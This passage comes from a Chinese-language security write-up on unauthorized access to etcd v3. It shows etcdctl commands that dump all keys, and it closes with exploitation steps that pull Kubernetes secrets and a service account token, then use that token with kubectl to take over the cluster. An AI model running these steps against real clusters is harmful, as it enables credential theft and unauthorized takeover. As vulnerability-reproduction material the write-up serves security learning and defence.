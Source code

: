 ![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9ZbeicZsfmLLWeB8qZ1YcbQP3KBDMDs1qhEM67ibmbZfy2GdbYzflXV3A/640?wx_fmt=png&from=appmsg "")  
  
etcd v3版本的api和v2版本完全不同，所以访问上面的url不会看到任何数据。这里主要简单介绍一下v3版本api的使用。  
  
搭建好上面的测试环境后，可以执行以下命令，向etcd中插入几条测试数据：  
```
etcdctl --endpoints=192.168.19.61:23791 put /testdir/testkey1 "Hello world1"
etcdctl --endpoints=192.168.19.61:23791 put /testdir/testkey2 "Hello world2"
etcdctl --endpoints=192.168.19.61:23791 put /testdir/testkey3 "Hello world3"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J93jhBRQRHMPgh2BMUqzpbib3nQJRxaHialCNxDNq3u3MMMictEBxQpjnAw/640?wx_fmt=png&from=appmsg "")  
  
执行下面命令即可读取etcd中存储的所有数据：(在keys中查找敏感key)  
```
etcdctl --endpoints=192.168.19.61:23791 get / --prefix
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9k3B25CSDdhx8KkaKfYxWXXEmGHVLVKX7arU1dorf9iagKyv7PD7vTWA/640?wx_fmt=png&from=appmsg "")  
  
然后就可以查看指定key的值：  
```
etcdctl --endpoints=192.168.19.61:23791  get /testdir/testkey1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9Rho7f3vNXYkx5iaI0aEq3nfqxQ4mMdlTwDpv12pErRnQpcJmGOXMPEw/640?wx_fmt=png&from=appmsg "")  
  
-prefix用来指定前缀，上述命令的意思就是获取所有“/”作为前缀的key value值  
  
如果结果过多，还可以通过--limit选项限制数量：  
```
etcdctl --endpoints=192.168.19.61:23791 get / --prefix --limit=2
```  
  
下面命令可用于列出当前目标所属同一集群的所有节点：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9sBT7lHLAl2sHke7gHicaOwQSG86bKBEon70rN7OYYR9fcBmNbgd8koQ/640?wx_fmt=png&from=appmsg "")  
  
  
未授权访问可能产生的风险  
  
kubernetes的master会安装etcd v3用来存储数据，如果管理员进行了错误的配置，导致etcd未授权访问的情况，那么攻击者就可以从etcd中拿到kubernetes的认证鉴权token，从而接管集群。  
  
在真实的场景中，还有一些应用使用etcd来存储各种服务的账号密码、公私钥等敏感数据。而很多etcd服务的使用者完全没有考虑过其安全风险，这种情况和redis的使用情况差不多，在企业内网比较普遍，甚至也有少部分人会将其开放到公网。  
  
由于复现环境没有secrets,token信息，无法复现，给出后续利用步骤  
```
获取k8s的secrets：
etcdctl --endpoints=192.168.19.61:23791 get / --prefix --keys-only | grep /secrets/
  
读取service account token:
etcdctl --endpoints=192.168.19.61:23791 get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
etcdctl --endpoints=192.168.19.61:23791 get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jdp5z

通过token访问API-Server，获取集群的权限：
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="ey..." -n kube-system get pods
```  
  